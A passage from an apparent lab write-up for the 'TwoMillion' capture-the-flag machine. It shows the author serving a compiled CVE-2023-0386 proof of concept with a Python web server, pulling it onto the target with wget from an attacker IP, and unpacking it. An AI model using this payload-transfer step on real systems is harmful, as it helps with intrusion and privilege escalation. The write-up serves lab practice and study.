 ![b](/images/images-twomillion/image_28.png)

And started a web server to transfer the compiled Poc.
```
python3 -m http.server
```
![b](/images/images-twomillion/image_29.png)

After this I downloaded with *wget the file to the target machine.
```
wget 10.10.14.33:8000/CVE-2023-0386.tar.bz2 
```
![b](/images/images-twomillion/image_30.png)
I decompiled it:
```
tar -xjvf CVE-2023-0386.tar.bz2
```